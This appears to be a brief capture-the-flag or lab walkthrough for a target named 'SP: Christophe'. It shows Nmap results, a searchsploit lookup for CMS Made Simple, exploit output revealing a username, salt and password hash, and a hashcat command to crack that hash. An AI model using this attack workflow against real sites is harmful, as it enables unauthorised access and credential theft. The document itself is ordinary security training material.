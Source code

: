 # SP: Christophe (V1.0.2)

![image](https://user-images.githubusercontent.com/5285547/125982486-dc67b351-b5df-4e28-9973-9de19ff391fe.png)

## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


## CMS Made Simple

```
searchsploit "cms made simple"
```
![image](https://user-images.githubusercontent.com/5285547/125983683-849c0a35-68be-4a6d-a5d2-66a5aadd3b38.png)


![image](https://user-images.githubusercontent.com/5285547/125982400-47f6763c-774a-4277-b48f-ca0770546ab8.png)


```
[+] Salt for password found: 932129a6bd8545bd
[+] Username found: christophe
[+] Email found: christophe@christophe.local
[+] Password found: 7908b1494f82ed320b288a0e839bfbc5
```

Crack the password

```
hashcat -O -a 0 -m 20 7908b1494f82ed320b288a0e839bfbc5:932129a6bd8545bd /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
```
